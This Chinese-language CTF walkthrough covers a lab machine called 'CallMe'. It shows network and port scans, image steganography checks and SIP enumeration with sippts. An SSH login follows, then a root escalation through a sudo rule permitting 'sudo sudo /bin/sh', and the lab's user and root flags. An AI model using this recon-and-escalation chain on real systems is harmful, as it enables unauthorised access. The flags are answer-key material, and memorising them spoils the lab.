







## 网段扫描
```
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:df:e2:a7, IPv4: 192.168.26.128
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.26.1    00:50:56:c0:00:08       (Unknown)
192.168.26.2    00:50:56:e8:d4:e1       (Unknown)
192.168.26.193  00:0c:29:a7:30:19       (Unknown)
192.168.26.254  00:50:56:e5:dc:17       (Unknown)

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.898 seconds (134.88 hosts/sec). 4 responded
```

## 端口扫描

```
└─# nmap -p- -sC -sV 192.168.26.193
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 06:56 EST
Nmap scan report for 192.168.26.193 (192.168.26.193)
Host is up (0.0011s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp open  http    Apache httpd 2.4.61 ((Debian))
|_http-title: CallMe
|_http-server-header: Apache/2.4.61 (Debian)
MAC Address: 00:0C:29:A7:30:19 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.29 seconds
```

## 获取webshell
  
```
└─# exifexiftool img.jpg 
ExifTool Version Number         : 12.76
File Name                       : img.jpg
Directory                       : .
File Size                       : 55 kB
File Modification Date/Time     : 2024:07:12 16:10:56-04:00
File Access Date/Time           : 2025:01:21 07:00:25-05:00
File Inode Change Date/Time     : 2025:01:21 07:00:25-05:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Image Width                     : 1000
Image Height                    : 622
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 1000x622
Megapixels                      : 0.622
                                                                                                                                                                                                                
┌──(root㉿LingMj)-[/home/lingmj/xxoo]
└─# stegseek img.jpg 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Progress: 99.94% (133.4 MB)           
[!] error: Could not find a valid passphrase.
                                                                                                                                                                                                                
┌──(root㉿LingMj)-[/home/lingmj/xxoo]
└─# strings -n 9 img.jpg 
 , #&')*)
-0-(0%()(
((((((((((((((((((((((((((((((((((((((((((((((((((
%&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
&'()*56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
O],zQp8qe/
#ozkqKT}%
gI[k)44O1
#>MA3`R`P
MGw; 84)!Y
n2.1,y?Q\
)i3nD'>[v
JFj6Z`7u!
```
  
  

>重新扫一遍这个udp
>
  
```
└─# sippts enumerate -i 192.168.26.193

☎️  SIPPTS BY 🅿 🅴 🅿 🅴 🅻 🆄 🆇

  ___ ___ ___ ___ _____ ___                                   _       
 / __|_ _| _ \ _ \_   _/ __|  ___ _ _ _  _ _ __  ___ _ _ __ _| |_ ___ 
 \__ \| ||  _/  _/ | | \__ \ / -_) ' \ || | '  \/ -_) '_/ _` |  _/ -_)
 |___/___|_| |_|   |_| |___/ \___|_||_\_,_|_|_|_\___|_| \__,_|\__\___|
                
💾 https://github.com/Pepelux/sippts
🐦 https://twitter.com/pepeluxx

[✓] IP address: 192.168.26.193:5060/UDP

INVITE => 180 Ringing (User-Agent: Not found) / 200 OK (User-Agent: Not found)
BYE => 200 OK (User-Agent: Not found)
CANCEL => 200 OK (User-Agent: Not found)
REGISTER => Timeout error
SUBSCRIBE => Timeout error
NOTIFY => Timeout error
MESSAGE => Timeout error
OPTIONS => Timeout error
PUBLISH => Timeout error
ACK => Timeout error
INFO => Timeout error
PRACK => Timeout error
UPDATE => Timeout error
REFER => Timeout error

+-----------+----------------------+------------+------------------+
| Method    | Response             | User-Agent | Fingerprinting   |
+-----------+----------------------+------------+------------------+
| INVITE    | 180 Ringing / 200 OK | Not found  | FreeSWITCH       |
| BYE       | 200 OK               | Not found  | Too many matches |
| CANCEL    | 200 OK               | Not found  | Too many matches |
| REGISTER  | Timeout              |            |                  |
| SUBSCRIBE | Timeout              |            |                  |
| NOTIFY    | Timeout              |            |                  |
| MESSAGE   | Timeout              |            |                  |
| OPTIONS   | Timeout              |            |                  |
| PUBLISH   | Timeout              |            |                  |
| ACK       | Timeout              |            |                  |
| INFO      | Timeout              |            |                  |
| PRACK     | Timeout              |            |                  |
| UPDATE    | Timeout              |            |                  |
| REFER     | Timeout              |            |                  |
+-----------+----------------------+------------+------------------+

Time elapsed: 5 sec(s)

[!] Fingerprinting is based on `To-tag` and other header values. The result may not be correct
```
  
>网址：https://github.com/Pepelux/sippts

>出现账号密码
>  
  

## 提权
```
└─# ssh phone@192.168.26.193                        
The authenticity of host '192.168.26.193 (192.168.26.193)' can't be established.
ED25519 key fingerprint is SHA256:4K6G5c0oerBJXgd6BnT2Q3J+i/dOR4+6rQZf20TIk/U.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:9: [hashed name]
    ~/.ssh/known_hosts:12: [hashed name]
    ~/.ssh/known_hosts:40: [hashed name]
    ~/.ssh/known_hosts:41: [hashed name]
    ~/.ssh/known_hosts:46: [hashed name]
    ~/.ssh/known_hosts:50: [hashed name]
    ~/.ssh/known_hosts:54: [hashed name]
    ~/.ssh/known_hosts:55: [hashed name]
    (2 additional names omitted)
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.26.193' (ED25519) to the list of known hosts.
phone@192.168.26.193's password: 
phone@call:~$ sudo -l
Matching Defaults entries for phone on call:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User phone may run the following commands on call:
    (root) NOPASSWD: /usr/bin/sudo
phone@call:~$ sudo su
[sudo] contraseña para phone: 
sudo: a password is required
phone@call:~$ sudo sudo /bin/sh
# bash
root@call:/home/phone# id
uid=0(root) gid=0(root) grupos=0(root)
root@call:/home/phone# 
```

>好了靶场结束

>userflag:ca1b5855e58d5009c37e0813642e8780
>
>rootflag:703ea4b3228faa3a0248e12209c88760
>


